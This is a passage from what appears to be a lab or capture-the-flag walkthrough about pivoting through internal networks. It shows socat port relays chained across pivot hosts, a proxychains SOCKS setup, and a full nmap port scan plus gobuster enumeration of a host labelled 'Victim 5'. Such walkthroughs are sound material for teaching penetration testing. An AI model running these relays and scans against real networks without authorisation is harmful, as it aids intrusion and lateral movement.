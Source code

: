         #Execute this from the 20.20.20.2 machine
        ./socat TCP-LISTEN:7775,fork TCP:20.20.20.2:7774
        
        #Execute this from the 10.10.10.2 machine
        ./socat TCP-LISTEN:7774,fork TCP:10.10.10.1:1234
        ```
        
        ![image 51](https://github.com/user-attachments/assets/5803099a-54c5-45fe-9cdb-f7bb93a81743)

        
        ![image 52](https://github.com/user-attachments/assets/901eb2c2-a565-4e41-b347-7baf238c6231)

        
        ![image 53](https://github.com/user-attachments/assets/94a61d67-ba09-4a35-ad98-f6f191ab179c)

        
        ![image 54](https://github.com/user-attachments/assets/50abecd4-dab6-48ce-a994-16e6a6b1b424)

        
        ![image 55](https://github.com/user-attachments/assets/0666bba5-6d69-466c-af03-377513132658)

        
        - Add in `/etc/proxychains4.conf` the following line
            
            ```bash
            socks5 127.0.0.1 7777
            ```
            
    
- 50.50.50.3 (Victim 5)
    - We scanned all the ports.
        
        ```bash
        seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n 50.50.50.3 2>&1 | grep "tcp open"
        ```
        
        ![image 56](https://github.com/user-attachments/assets/beac9bff-c9c3-4f7e-a585-6b1c5b84ecb2)

        
    - As we see that you have a web service on port 80, we perform an enumeration and find a `warning.html` file.
        
        ```bash
        gobuster dir -u http://50.50.50.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 5 --proxy socks5://127.0.0.1:7777 -x .php,.txt,.html,.py
        ```
        
        ![image 57](https://github.com/user-attachments/assets/f22c1fa2-850a-4006-abc4-f11496010e80)

        
    - We access the page defining a proxy and see a potential user
        
        ![image 58](https://github.com/user-attachments/assets/66ff8ae3-5d95-4114-8ee2-a0312ef3e803)

        
        ![image 59](https://github.com/user-attachments/assets/59dd89a2-14df-4f4f-8ed8-6c75ae8ab912)
